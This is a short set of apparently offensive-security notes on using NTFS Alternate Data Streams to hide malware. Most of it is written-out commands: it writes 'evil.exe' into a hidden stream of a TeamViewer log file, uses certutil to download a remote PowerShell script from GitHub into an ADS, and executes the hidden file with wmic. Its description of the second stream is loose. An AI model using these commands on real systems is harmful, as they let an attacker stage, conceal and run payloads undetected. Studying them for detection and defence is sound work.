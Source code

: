 ### Alternate Data Streams:
- File on NTFS formatted drive has 2 streams:
  - Data stream: default stream - contains data
  - Resource stream: used for metadata
  - This is useful to hiding file
- Write to ADS
  -  `type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe" `
- Download directly into ADS
  -  `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt`
- Executing from ADS
  - `wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'`
  - NOTE: full path
- There are many other methods to add and execute
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f


